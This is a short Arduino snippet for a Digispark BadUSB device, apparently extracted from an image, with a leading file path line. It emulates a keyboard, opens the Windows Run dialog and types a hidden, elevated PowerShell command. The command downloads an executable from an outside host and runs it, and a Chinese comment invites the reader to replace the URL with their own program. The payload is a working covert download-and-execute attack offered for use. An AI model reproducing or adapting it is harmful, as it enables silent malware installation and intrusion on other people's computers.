 ```cpp

 



  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//WIN+R



 



  delay(500);



 



  DigiKeyboard.sendKeyStroke(0);



 



  //delay(500);



 



  //DigiKeyboard.println("CMD.EXE /t:01 /k MODE con: cols=16 lines=2");



 



  delay(500);



 



  DigiKeyboard.println("POWERSHELL -NOP -W HIDDEN -C \"sTART-pROCESS -fILEpATH POWERSHELL.EXE \'-NOP -W HIDDEN -C iNVOKE-wEBrEQUEST -URI HTTP://BADUSB.PW/1.EXE -oUTfILE C:\\X.EXE;C:\\X.EXE\' -vERB RUNAS\"");//尽量其他盘 更改HTTP://BADUSB.PW/1.EXE为你程序的下载直连



 



```